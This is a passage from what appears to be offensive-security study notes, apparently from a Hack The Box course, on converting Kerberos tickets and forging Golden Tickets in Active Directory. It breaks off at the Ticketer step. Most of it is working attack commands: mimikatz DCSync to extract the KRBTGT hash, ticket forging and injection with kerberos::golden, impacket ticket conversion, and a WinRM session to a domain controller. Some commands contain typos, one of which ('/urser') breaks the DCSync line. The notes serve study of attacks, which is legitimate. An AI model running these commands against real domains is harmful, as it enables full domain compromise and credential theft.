* kekeo: `misc::convert ccache ticket.kirbi`
* impacket: `impacket-ticketConverter SRV01.kirbi SRV01.ccache`

## Pass-the-Ticket Golden Tickets

A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to impersonate any user — including Domain Admins — on a compromised Active Directory domain.

**Requirements**:

| Requirement       | Description |
| ----------------- | ----------- |
| Domain name       | corp.local  |
| Domain SID        | S-1-5-21-1234567890-2345678901-3456789012 |
| KRBTGT NTLM hash  | The NTLM hash of the KRBTGT account |
| Username          | Administrator |
| (Optional) Groups | Add group SIDs for elevated access (e.g., Domain Admin) |

As a result of `CVE-2021-42287` mitigations, the ticket cannot use a non-existent account name.

> The way to forge a Golden Ticket is very similar to the Silver Ticket one. The main differences are that, in this case, no service SPN must be specified to ticketer.py, and the krbtgt NT hash must be used.

### Golden Ticket Creation
#### HTB Method
* Retrieve the Domain SID
```powershell
Import-Module .\PowerView.ps1
```
* Get the KRBTGT Hash
```powerhsell
.\mimikatz.exe
lsadump::dcsync /urser:krbtgt /domain:<domain>
```
* Forge the Golden Ticket
```powershell
# Still in mimikatz
kerberos::golden /domain:<domain> /user:Administrator /sid:<domain sid> /rc4:<krbtgt NTLM hash> /ptt
```
* Use WINRM to connect
```powershell
Enter-PSSession dc01
```
#### Swisskey Method
* Retrieve the Domain SID

```powershell
Import-Module .\PowerView.ps1
Get-DomainSID
```
* Using **Ticketer**
